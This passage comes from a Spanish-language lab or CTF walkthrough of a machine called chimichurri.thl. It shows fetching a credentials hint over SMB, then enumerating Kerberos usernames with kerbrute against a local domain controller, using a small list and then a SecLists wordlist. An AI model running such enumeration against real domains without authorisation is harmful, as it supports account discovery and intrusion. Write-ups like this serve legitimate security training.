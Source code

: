 Vamos a descargar ese archivo:
```bash
smb: \> get credenciales.txt
getting file \credenciales.txt of size 95 as credenciales.txt (23.2 KiloBytes/sec) (average 23.2 KiloBytes/sec)
```

Y veamos su contenido:
```bash
cat credenciales.txt
Todo es mejor en con el usuario hacker, en su escritorio estan sus claves de acceso como perico
```
Muy bien, tenemos otro usuario y nos están dando una pista de dónde buscar su contraseña.

<br>

<h2 id="Kerberos">Enumeración de Servicio Kerberos</h2>

Ahora ya tenemos un par de usuarios y podemos comprobar si este existe dentro del **servicio Kerberos** usando la herramienta **kerbrute**.

Vamos a meterlos dentro de un archivo de texto:
```bash
nano users.txt
--------------
Perro
perro
hacker
```

Y usaremos el **modo userenum** de la herramienta **kerbrute** para comprobar que existen dentro de la máquina:
```bash
./kerbrute_linux_amd64 userenum -d chimichurri.thl --dc 192.168.1.50 users.txt
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/23/25 - Ronnie Flathers @ropnop

2025/01/23 18:04:56 >  Using KDC(s):
2025/01/23 18:04:56 >   192.168.1.50:88

2025/01/23 18:04:56 >  [+] VALID USERNAME:       hacker@chimichurri.thl
2025/01/23 18:04:56 >  Done! Tested 3 usernames (1 valid) in 0.023 seconds
```
Bien, el **usuario hacker** sí existe.

Por último, vamos a probar si existen más usuarios usando un wordlist de **seclist**:
```bash
./kerbrute_linux_amd64 userenum -d chimichurri.thl --dc 192.168.1.50 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/23/25 - Ronnie Flathers @ropnop

2025/01/23 17:40:06 >  Using KDC(s):
2025/01/23 17:40:06 >   192.168.1.50:88

2025/01/23 17:40:10 >  [+] VALID USERNAME:       hacker@chimichurri.thl
2025/01/23 17:40:25 >  [+] VALID USERNAME:       Hacker@chimichurri.thl
2025/01/23 17:42:10 >  [+] VALID USERNAME:       invitado@chimichurri.thl
```